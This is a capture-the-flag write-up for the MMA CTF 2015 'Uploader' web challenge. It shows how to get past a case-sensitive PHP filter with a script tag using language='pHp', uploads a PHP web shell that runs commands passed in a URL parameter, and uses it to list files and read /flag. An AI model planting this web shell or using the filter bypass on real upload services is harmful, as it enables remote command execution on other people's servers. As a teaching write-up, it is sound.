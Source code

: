 
## MMA 1st CTF 2015 - Uploader (Web 100)
##### 05/09 - 07/09/2015 (48hr)
___
### Description: 
This uploader deletes all /<\?|php/. So you cannot run php.
```
http://recocta.chal.mmactf.link:9080/
http://recocta.chal.mmactf.link:9081/ (Mirror 1)
http://recocta.chal.mmactf.link:9082/ (Mirror 2)
http://recocta.chal.mmactf.link:9083/ (Mirror 3)
```
You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.
___
### Solution

These are the challenges that you either solve in 5 mins, or you never solve. We can upload php
files but they cannot contain <? php, or <?php. However it is possible to execute php as follows:
```html
	<script language="php"></script>
```

Thus all we have to do is to upload the following file:
```html
<script language="pHp">
	system( $_GET['cmd'] );
</script>
```

Because "php" string is filtered, we use "pHp" filter instead, as filter is case sensitive. 
Let's start. First we list all files:
```
	http://recocta.chal.mmactf.link:9080/u/foo.php?cmd=ls / -la 
```

There's a file called flag. We read it:
```
	http://recocta.chal.mmactf.link:9080/u/foo.php?cmd=cat /flag
```
And we get the flag: **MMA{you can run php from script tag}**
___